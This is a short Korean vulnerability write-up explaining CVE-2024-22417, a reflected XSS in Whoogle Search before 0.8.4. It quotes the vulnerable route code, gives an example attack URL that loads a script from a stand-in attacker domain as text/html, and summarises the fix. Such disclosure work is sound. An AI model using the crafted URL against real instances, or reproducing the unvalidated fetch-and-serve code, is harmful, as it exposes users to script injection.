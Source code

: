 ```yaml
---
title: "[하루한줄] CVE-2024-22417: Whoogle-search Reflected XSS"
author: ogu123
tags: [Whoogle-search, Reflected XSS, ogu123]
categories: [1day1line]
date: 2024-02-08 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[XSS vulnerability in Whoogle Search versions prior to 0.8.4.](https://securitylab.github.com/advisories/GHSL-2023-186_GHSL-2023-189_benbusby_whoogle-search/)

## Target

- Whoogle Search < 0.8.4

## Explain

Whoogle은 개인화된 Google입니다. Google에 직접 검색 쿼리를 보내는 대신, Whoogle이 중개자 역할을 수행해 사용자 검색 쿼리를 Google에 저장하는 것을 방지하여 개인정보를 보호할 수 있습니다.

CVE-2024-22417 취약점은 사용자가 제어할 수 있는 변수에 대한 검증이 이루어지지 않아 발생했습니다.


```
def element():
    element_url = src_url = request.args.get('url')

    #code cut out for readability
    src_type = request.args.get('type')

    try:
        file_data = g.user_request.send(base_url=src_url).content
        tmp_mem = io.BytesIO()
        tmp_mem.write(file_data)
        tmp_mem.seek(0)

        return send_file(tmp_mem, mimetype=src_type)
    except exceptions.RequestException:
        pass
```
발생 위치는 `app/routes.py` 파일의 `element` 메소드이며, 공격자가 작성한 URL을 통해 타겟에서 악성 스크립트를 실행할 수 있습니다.

<br>

```
https://whoogle.dragon.local/element?url=http://ogu123-domain.com/ogu123-script.js&type=text/html
```
공격자는 취약점을 악용해 위와 같은 URL을 만들 수 있습니다.

타겟이 해당 URL에 접속할 경우 `element_url(http://ogu123-domain.com/ogu123-script.js)`로 GET 요청을 보내고 `src_type(text/html)` 형식으로 타겟 브라우저에서 응답을 실행합니다.

만약 `element_url`에서 악성코드가 포함되어 있다면, 타겟 브라우저에서 XSS가 트리거됩니다.
<br>

![](cve-2024-22417/image1.png)

취약점에 대한 [패치](https://github.com/benbusby/whoogle-search/commit/3a2e0b262e4a076a20416b45e6b6f23fd265aeda)는 `src_url`에서 도메인을 추출 및 검증하는 코드를 추가하는 것으로 Reflected XSS 공격을 차단하도록 이루어졌습니다.



## Reference

- [Security-Database](https://www.security-database.com/detail.php?alert=CVE-2024-22417)
